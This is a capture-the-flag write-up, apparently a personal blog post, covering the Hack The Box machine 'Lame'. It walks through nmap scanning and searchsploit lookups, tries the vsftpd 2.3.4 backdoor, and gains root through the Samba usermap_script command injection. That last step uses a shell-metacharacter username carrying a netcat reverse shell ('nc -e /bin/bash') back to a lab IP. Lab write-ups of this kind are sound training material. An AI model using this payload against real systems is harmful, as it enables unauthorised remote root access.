 ```yaml
---
layout: post
title: Lame
tags: [OSCP, writeup, lame]
twitter_text: "test"
introduction: "test"
description: "Lame write-up"
---
```


![](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

![](/assets/imgs/lame/ftp_exploit_manually.PNG)

Then we connect to the bind shell on port 6200.

![](/assets/imgs/lame/ftp_nc.PNG)

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands. (https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

I want a reverse shell so my payload should look something like this :

```
./=`nohup nc -e /bin/bash 10.10.14.3 4444`
```

Let's try it !

Open a nc listener :

```bash
nc -lvp 4444
```

Then triggered the exploit.

![](/assets/imgs/lame/smb_exploit.PNG)

We have a connection back to our listener and we are "root", nice !

![](/assets/imgs/lame/smb_exploit_reverse_shell.PNG)

### Shell upgrade

Now that we have a shell, let's upgrade it :

![](/assets/imgs/lame/shell_upgrade.PNG)

And now go read the flags !

### User

![](/assets/imgs/lame/user.PNG)

### Root

![](/assets/imgs/lame/root.PNG)
